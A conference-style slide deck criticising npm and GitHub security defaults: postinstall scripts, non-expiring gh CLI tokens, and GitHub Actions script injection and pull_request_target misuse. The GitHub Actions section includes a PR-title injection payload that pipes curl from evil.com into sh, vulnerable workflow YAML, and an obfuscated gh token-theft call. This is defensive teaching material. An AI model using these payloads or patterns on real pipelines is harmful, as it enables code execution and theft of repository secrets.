




# How GitHub fucked up security (and keeps doing it)

<div class="abs-bottom-margin text-sm opacity-60">
  A deep dive into outsourced risk, token convenience traps, and CI/CD backdoors
</div>

---
layout: default
---

<div class="w-full h-full flex flex-col justify-center items-center">
  
</div>

---
layout: section
---

# Act I: The npm Postinstall Trap

---

# Supply Chain Attacks on npm

- **`ua-parser-js` (Oct 2021) & `coa` / `rc` (Nov 2021)**  
  Hijacked maintainer accounts injected malicious `preinstall` / `postinstall` scripts deploying crypto miners and credential stealers (Danabot).

- **Shai-Hulud: The First Wave (Sept 2023)**  
  Automated npm worm injecting obfuscated `postinstall` scripts across dozens of packages to harvest developer secrets (`NPM_TOKEN`, `GITHUB_TOKEN`, AWS keys).

- **Ledger Connect Kit (Dec 2023)**  
  Compromised npm package (`@ledgerhq/connect-kit`) injected wallet-draining scripts across Web3 apps and CDN distributions.

- **Shai-Hulud: The Second Wave (May 2024)**  
  Evolved worm searching active developer sessions, local `.npmrc` tokens, and git commit history to automatically publish backdoored minor/patch releases.

---

# Package Manager Policy Timeline

<div class="w-full flex justify-center my-2">



</div>

<div class="grid grid-cols-2 gap-6 mt-4 text-xs">
<div>

<div class="font-bold text-sm mb-1 text-gray-800 dark:text-gray-200">pnpm v10 (January 2025)</div>

- **Disabled by default**: `preinstall`, `install`, and `postinstall` scripts do not run automatically.
- Requires explicit `onlyBuiltDependencies` in `package.json`.
- Prioritized developer security immediately.

</div>
<div>

<div class="font-bold text-sm mb-1 text-gray-800 dark:text-gray-200">npm v12 (July 2026)</div>

- **18-month delay**: Left millions of developers exposed to automatic execution of malicious scripts.
- Prioritized backward compatibility and ecosystem friction avoidance over active defense.

</div>
</div>

---

# Why Postinstall Scripts Matter

- **Browser & Driver Downloads (`playwright`, `puppeteer`)**  
  Modern end-to-end testing frameworks need massive headless browser binaries (Chromium, Firefox, WebKit ~300MB+).

- **Platform-Specific Native Compilations (`esbuild`, `sharp`, `sqlite3`)**  
  High-performance tools compile or download C++/Rust/Go native bindings (`.node` or prebuilt binaries) tailored to the exact OS architecture (`linux-x64-gnu`, `darwin-arm64`, `win32-x64`).

- **Database Client Generation (`@prisma/client`)**  
  Prisma reads your local `schema.prisma` and runs a code generator during `postinstall` to produce type-safe TypeScript definitions matching your specific database models.

---

# The "Platform Model"

NPM 12 picked the platform model approach...

<div class="grid grid-cols-2 gap-6 mt-4">
<div>

- **Amazon Marketplace**  
  Amazon collects seller fees and fulfillment commissions. When a third-party seller ships a counterfeit charger or hazardous battery, Amazon argues: *"We are merely the venue; product liability is strictly between you and the third-party merchant."*

- **Airbnb & Vacation Rentals**  
  Monetizes home rentals with booking fees, but shifts physical safety, scam cancellations, and local zoning compliance to guests and hosts.

</div>
<div>

- **VS Code & Browser Extension Stores**  
  Curated marketplaces encourage one-click installations. When an extension is updated with token stealers or keyloggers, the user bears the breach cost.

- **npm / GitHub Packages**  
  npm advertises *"run anything instantly with `npm install`"*. But when a transitive dependency executes a malicious `postinstall` script, npm claims: *"You chose to install that dependency tree—security is your responsibility."*

</div>
</div>

<div class="mt-4 p-2 bg-yellow-950/40 border border-yellow-600/50 rounded text-xs text-yellow-200">
  <strong>The Core Dynamic:</strong> Centralized profits, decentralized risk. The platform provides discovery and distribution, but outsources vetting, sandboxing, and financial liability to the end user.
</div>

---

# What GitHub & npm Should Have Done Instead

- **Declarative Native Binaries (First-Class Binary Hosting)**  
  Replace arbitrary shell scripts with a structured manifest field:
  ```json
  "binaries": { "darwin-arm64": "v1.2/darwin-arm64.tar.gz", "linux-x64": "v1.2/linux-x64.tar.gz" }
  ```

- **Mandatory Pre-Publish Binary Scanning**  
  Run registry-side static and dynamic malware analysis on all hosted binary assets before they are indexed for installation.

- **Third-Party Scanner Integrations & Attestations**  
  Native webhooks allowing trusted security scanners (Socket, Snyk, VirusTotal) to cryptographically attest clean status before a release goes live.

- **Sandboxed Execution**  
  If a package *must* compile, execute it inside an ephemeral, network-isolated sandbox with no read access to `~/.ssh`, `~/.aws`, `~/.npmrc`, or environment secrets.

---
layout: section
---

# GitHub & npm Externalized Risk to You

They preserved frictionless growth and registry scale, while leaving individual developers and companies to suffer the consequences of unisolated code execution.

---
layout: section
---

# Act II: The GitHub CLI Hypocrisy

Pushing short-lived PATs on developers while bundling perpetual master tokens and unauthenticated escape hatches.

---

# The Great Token Double Standard

GitHub spent years lecturing the industry on token hygiene and zero-trust credentials:

- **GitHub's Public Mandate: "Short-Lived, Scoped Tokens Everywhere"**  
  - Enforced 2FA for all developers in 2023.
  - Introduced fine-grained Personal Access Tokens (PATs) with mandatory expiration (max 1 year).
  - Promoted GitHub Actions OIDC to abolish permanent secrets in CI/CD.
  - Warned that long-lived credentials are the #1 attack vector in software supply chains.

- **The `gh` CLI Reality: The Forever Token**  
  - Run `gh auth login` once on your machine.
  - By default, it generates an OAuth token with **no expiration date**.
  - It stays permanently valid until manually revoked in your GitHub web settings.
  - One developer laptop compromise = perpetual access across your personal and organizational repos.

---

# `gh auth login`: Account Authorization

<div class="grid grid-cols-2 gap-6 items-center mt-3 text-xs">
<div>

<div class="font-bold text-sm mb-2 text-gray-800 dark:text-gray-200">The Frictionless Consent Screen</div>

- **Automatic Scope Bundling**  
  GitHub automatically bundles maximum privileges: full control of repositories (`repo`), workflow modification (`workflow`), gists, and public keys.

- **No Granular Scoping Option**  
  Developers cannot deselect sensitive scopes during browser authorization. It is strictly an all-or-nothing grant.

- **Infinite Token Lifetime**  
  The authorization generates a permanent token with **no expiration date**, stored indefinitely on the local developer workstation.

</div>
<div class="flex justify-center">



</div>
</div>

---

# `gh auth login`: Organizational Blast Radius

<div class="grid grid-cols-2 gap-6 items-center mt-3 text-xs">
<div>

<div class="font-bold text-sm mb-2 text-gray-800 dark:text-gray-200">Blanket Enterprise & Org Access</div>

- **Multi-Tenant Exposure by Default**  
  Every organization the user belongs to is automatically included in the authorization request.

- **Cascading Supply Chain Risk**  
  A single compromised developer laptop exposes tokens that span personal pet projects, open-source maintainer repos, and employer enterprise repositories.

- **Invisible Privilege Elevation**  
  Organization admins receive minimal visibility and no approval gates when developers authorize personal CLI tokens with write access to internal code.

</div>
<div class="flex justify-center">



</div>
</div>

---

# How GitHub Fucks Up Token Protection

<div class="my-2">
  
</div>

<div class="text-xs space-y-2">

- **Why does `gh auth token` exist? (Plugins, Extensions & Scripting)**  
  GH Plugins needed a programmatic way to authenticate API requests.

  - **New Attack Vector: Malicious Plugins (`gh extension`)**  
  GitHub CLI extensions have **zero sandboxing, zero permission scopes, and zero security review**.

- **No Hardware Isolation (Zero TPM / Secure Enclave / Biometrics)**  
  Even when stored in the OS credential manager, `gh` never requires hardware-bound key attestation or a user confirmation prompt.

- **A Built-In Exfiltration API for Any Process**  
  GitHub created an unauthenticated command that extracts your master token on demand for *any* process running under your user session—npm postinstall, rogue linters, or malicious CLI plugins.

</div>

---

# Worse Than Pure File Access

- **Evasion of Security Scanners (Far Beyond Postinstall)**  
  Detecting an obfuscated process invocation (`execSync("g" + "h auth" + " token")` or base64-encoded subshells) is hard.

- **Harder to Restrict Than File System Access**  
  OS-level sandboxes (AppArmor, Landlock, macOS seatbelt) can easily block read access to specific credential files.

- **The Postinstall & Plugin Threat Realized**  
  Malware doesn't have to bypass OS keychain encryption or read protected paths. It just executes `gh auth token` to receive a non-expiring master key.

---

# What GitHub Has Done to Heal

To be completely fair, GitHub and npm have introduced major security defenses to mitigate token abuse.

- **Expiring CLI OAuth Tokens (`gh` v2.103+)**

- **npm Trusted Publishing with OIDC (GA Jul 2025)**

- **Push Protection & Automatic Revocation (Default for all users)** 

- **Fine-Grained PATs & Enterprise Rotation Mandates**

- **Mandatory 2FA & Passkey Rollout**  

> **The Remaining Gap:** Many of the best protections (like expiring CLI credentials) remain **opt-in** to avoid breaking legacy developer workflows. Security defaults still matter.

---
layout: section
---

# Act III: GitHub Actions

How simple workflow misconfigurations allow untrusted pull requests to execute arbitrary code with repository master secrets.

---

# CI/CD Attack: Template Script Injection

GitHub Actions evaluates `${{ ... }}` expressions as **raw string replacement** before passing scripts to the shell runner:

<div class="grid grid-cols-2 gap-6 mt-3 text-xs">
<div>

<div class="font-bold text-sm mb-2 text-red-600 dark:text-red-400">❌ Vulnerable Workflow Step</div>

```yaml
# ❌ Expression evaluated before bash runs
name: Triage PR
on: pull_request_target
steps:
  - run: |
      echo "PR: ${{ github.event.pull_request.title }}"
```

<div class="mt-3 p-2 bg-red-950/30 border border-red-500/40 rounded text-red-200">
  <strong>The Flaw:</strong> User-controlled metadata (PR title, issue body, branch name) is interpolated directly into the script string before shell parsing.
</div>

</div>
<div>

<div class="font-bold text-sm mb-2 text-red-600 dark:text-red-400">The Injection Payload</div>

**Attacker sets PR title to:**
```bash
Fix bug"; curl evil.com/x | sh #
```

**What the runner executes:**
```bash
echo "PR: Fix bug"; curl evil.com/x | sh # "
```

<div class="mt-3 p-2 bg-zinc-900 border border-zinc-700 rounded text-zinc-300">
  <strong>Instant Takeover:</strong> Executes arbitrary code in CI with access to the runner's disk, memory, environment variables, and master secrets!
</div>

</div>
</div>

---

# CI/CD Attack: The `pull_request_target` Trap

Unlike `pull_request`, `pull_request_target` executes in the context of the **base repository**—with master secrets and a write-token:

<div class="grid grid-cols-2 gap-6 mt-3 text-xs">
<div>

<div class="font-bold text-sm mb-2 text-red-600 dark:text-red-400">❌ Checking Out Untrusted Fork Code</div>

```yaml
# ❌ Privileged context + untrusted fork code
name: Test PR
on: pull_request_target

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      # Danger: Checking out PR head code!
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}

      - run: npm test  # Or npm ci / cargo test
```

<div class="mt-3 p-2 bg-red-950/30 border border-red-500/40 rounded text-red-200">
  <strong>The Trap:</strong> Intended to securely label or triage PRs, but frequently misused to build or test external contributions.
</div>

</div>
<div>

<div class="font-bold text-sm mb-2 text-red-600 dark:text-red-400">The 4-Step Takeover Chain</div>

1. **Fork the target repo**: Attacker forks a legitimate project.
2. **Backdoor build/test scripts**: Injects payloads into `package.json` (`test` / `postinstall`), Python `setup.py`, or Rust `build.rs`.
3. **Submit a harmless-looking PR**: Triggers the `pull_request_target` event automatically.
4. **Execution with base repo secrets**:
   The workflow executes the untrusted code *inside the privileged repository context*, exfiltrating deploy keys and npm tokens!

</div>
</div>

---

# Real-World Crime Scene: High-Profile OSS Victims

<div class="space-y-3 mt-2 text-sm">

<div>

- **Grafana (`grafana/grafana` - Security Incident)**  
  An attacker created a branch with shell metacharacters, breaking out of the command to instantly dump secrets on the first run.
</div>

<div>

- **Solana (`solana-labs/solana` - GHSL-2021-1032)**  
  The Explorer CI workflow listened on `pull_request_target`, explicitly checked out the fork's `${{ github.event.pull_request.head.sha }}`, and ran `npm ci` and `npm run build`. Any fork modifying build scripts could steal production secrets.
</div>

<div>

- **Petgraph (`petgraph/petgraph` - Issue #950)**  
  A release workflow ran on `pull_request_target` with `CARGO_REGISTRY_TOKEN`. It checked out PR code and ran `cargo build`. In Rust, `build.rs` compiles and executes arbitrary code during build time—allowing any PR to hijack crate releases.
</div>

<div>

- **Misskey (`misskey-dev/misskey` - GHSL-2024-051)**  
  `storybook.yml` ran on `pull_request_target` with write permissions:  
  `BRANCH="${{ github.event.pull_request.head.user.login }}:${{ github.event.pull_request.head.ref }}"`.
</div>

</div>

---
layout: section
---

# Act IV: What's Next?

Beyond npm: lifecycle execution across ecosystems, unvetted registries, and the expanding supply chain perimeter.

---

# Beyond npm: Lifecycle Hooks Are Everywhere

npm's postinstall is not unique—almost every major package manager has an arbitrary execution escape hatch:

- **Python (PyPI) & `setup.py`**  
  While Wheels (`.whl`) are static archives, source distributions (`sdist`) execute arbitrary Python code in `setup.py` during `pip install`.

- **Rust (crates.io / Cargo) & `build.rs`**  
  Cargo natively supports a custom build script (`build.rs`).

- **PHP (Composer) & Lifecycle Scripts**  
  `composer.json` features `scripts` (`post-install-cmd`, `post-update-cmd`, `pre-install-cmd`).

- **Ruby (RubyGems) & `extconf.rb`**  
  Gems with C extensions execute `extconf.rb` during `gem install` to generate Makefiles, allowing arbitrary Ruby execution before compilation even begins.

---

# The Registry Illusion: Who Scans the Code?

Developers assume registries actively protect them. In reality, registries range from unvetted to entirely decentralized:

- **The Go (Golang) Model: Decentralized & Completely Unscanned**  
  - Go has **no central registry** that inspects or vets packages before developers download them. Modules fetched from public Git repositories (GitHub, GitLab, self-hosted) via `proxy.golang.org`.
  - The Go Checksum Database (`sum.golang.org`) only guarantees **immutability** (the commit hash hasn't changed), **not safety**.

- **Open Submission Models (PyPI & crates.io)**  
  - PyPI and crates.io operate on open self-service publishing.
  - Neither performs mandatory pre-publish dynamic sandboxed detonation.
  - Threat actors easily publish typo-squatted or brand-jacked packages that stay live and active until humans or automated post-facto scanners report them.

---

# The New Rules of Supply Chain Survival

<div class="grid grid-cols-3 gap-5 mt-5 text-xs">
<div class="p-4 rounded-lg bg-zinc-900/90 border border-zinc-700/80 flex flex-col justify-between">
  <div>
    <div class="text-xs uppercase tracking-wider font-mono text-red-400 font-bold mb-1">Rule 01</div>
    <div class="text-sm font-bold text-gray-100 mb-3 leading-snug">Do not trust your developer machine</div>
    <ul class="space-y-2 text-zinc-300">
      <li><strong>Ambient Credentials</strong>: Local workstations store god-mode tokens (<code>~/.ssh</code>, <code>gh</code>, <code>.npmrc</code>, AWS keys).</li>
      <li><strong>Isolate Builds & Workspaces</strong>: Run untrusted dependencies and builds inside containers or ephemeral VMs.</li>
      <li><strong>Enforce Short Lifespans</strong>: Require expiring sessions (<code>--expiring</code>) and hardware keys over static tokens.</li>
    </ul>
  </div>
</div>

<div class="p-4 rounded-lg bg-zinc-900/90 border border-zinc-700/80 flex flex-col justify-between">
  <div>
    <div class="text-xs uppercase tracking-wider font-mono text-red-400 font-bold mb-1">Rule 02</div>
    <div class="text-sm font-bold text-gray-100 mb-1 leading-snug">Do not trust any code execution</div>
    <div class="text-xs text-red-400 font-medium mb-3">— Not even in GitHub Actions</div>
    <ul class="space-y-2 text-zinc-300">
      <li><strong>Install = Execution</strong>: <code>postinstall</code>, <code>build.rs</code>, and <code>setup.py</code> run arbitrary code with user rights.</li>
      <li><strong>Sanitize CI Pipelines</strong>: Never interpolate PR context into run scripts; audit <code>pull_request_target</code>.</li>
      <li><strong>Abolish Static Secrets</strong>: Migrate all deployments and package publishing to OIDC Trusted Publishing.</li>
    </ul>
  </div>
</div>

<div class="p-4 rounded-lg bg-zinc-900/90 border border-zinc-700/80 flex flex-col justify-between">
  <div>
    <div class="text-xs uppercase tracking-wider font-mono text-red-400 font-bold mb-1">Rule 03</div>
    <div class="text-sm font-bold text-gray-100 mb-3 leading-snug">Expect you're compromised & have a plan</div>
    <ul class="space-y-2 text-zinc-300">
      <li><strong>Assume Breach</strong>: Registries do not vet code. Malicious packages will slip past upstream filters.</li>
      <li><strong>Limit Blast Radius</strong>: Apply fine-grained permissions, strict lockfile pinning, and internal proxy quarantines.</li>
      <li><strong>Automate Rotation</strong>: Keep rehearsed one-click revocation and credential rotation runbooks ready.</li>
    </ul>
  </div>
</div>
</div>

---
layout: default
---

<div class="w-full h-full flex flex-col justify-center items-center">
  
</div>

---

# Incident Dossier: Case File #2026-SUPPLY-CHAIN

<div class="mt-4 p-3 bg-red-950/60 border-l-4 border-red-600 rounded text-xs text-red-100 font-mono">
  <strong>FINAL VERDICT:</strong> The developer machine  was murdered in broad daylight by convenience-first defaults, outsourced liability, and ambient credentials.
</div>

<div class="grid grid-cols-2 gap-4 mt-2 text-xs">
<div class="space-y-2">

- **The Crime:**  
  Silent remote code execution and master credential exfiltration across developer machines, CI build pipelines, and production package releases.

- **Exhibit A (The Initial Breach / Act I):**  
  `npm install` executing unisolated `postinstall` lifecycle scripts with access to local credentials, while registries externalized product liability onto users.

- **Exhibit B (The Murder Weapon / Act II):**  
  The `gh` CLI generating non-expiring master OAuth tokens with `repo` and `workflow` scopes, with `gh auth token` dumping credentials to stdout for any process or malicious plugin.

</div>
<div class="space-y-2">

- **Exhibit C (The Backdoor / Act III):**  
  GitHub Actions CI workflows using `pull_request_target` to check out untrusted fork commits and evaluating unescaped `${{ }}` template strings.

- **Exhibit D (The Expanding Perimeter / Act IV):**  
  Cross-ecosystem lifecycle hooks (`build.rs`, `setup.py`) and unvetted open registries (Go proxy, PyPI, crates.io) proving the supply chain crisis extends far beyond npm.

</div>
</div>

---
layout: cover
background: ./assets/martin-podsiad-wrdtA9lew9E-unsplash.jpg
class: text-center
---

# Thank You

<div class="text-3xl font-serif text-white font-semibold mt-4 mb-4">
  Christoph Walcher
</div>

<div class="inline-flex items-center gap-2 px-5 py-2.5 rounded-full bg-black/70 backdrop-blur border border-zinc-700/80 text-sm shadow-xl">
  <svg class="w-5 h-5 text-gray-200 inline-block" viewBox="0 0 24 24" fill="currentColor">
    <path d="M12 0C5.37 0 0 5.37 0 12c0 5.31 3.435 9.795 8.205 11.385.6.105.825-.255.825-.57 0-.285-.015-1.23-.015-2.235-3.015.555-3.795-.735-4.035-1.41-.135-.345-.72-1.41-1.23-1.695-.42-.225-1.02-.78-.015-.795.945-.015 1.62.87 1.845 1.23 1.08 1.815 2.805 1.305 3.495.99.105-.78.42-1.305.765-1.605-2.67-.3-5.46-1.335-5.46-5.925 0-1.305.465-2.385 1.23-3.225-.12-.3-.54-1.53.12-3.18 0 0 1.005-.315 3.3 1.23.96-.27 1.98-.405 3-.405s2.04.135 3 .405c2.295-1.56 3.3-1.23 3.3-1.23.66 1.65.24 2.88.12 3.18.765.84 1.23 1.905 1.23 3.225 0 4.605-2.805 5.625-5.475 5.925.435.375.81 1.095.81 2.22 0 1.605-.015 2.895-.015 3.3 0 .315.225.69.825.57A12.02 12.02 0 0024 12c0-6.63-5.37-12-12-12z"/>
  </svg>
  <a href="https://github.com/saintedlama" target="_blank" class="text-teal-400 hover:text-teal-300 font-mono transition-colors">github.com/saintedlama</a>
</div>

<div class="mt-8 text-xs text-gray-300/80 font-mono tracking-widest uppercase">
  Questions &amp; Discussion
</div>
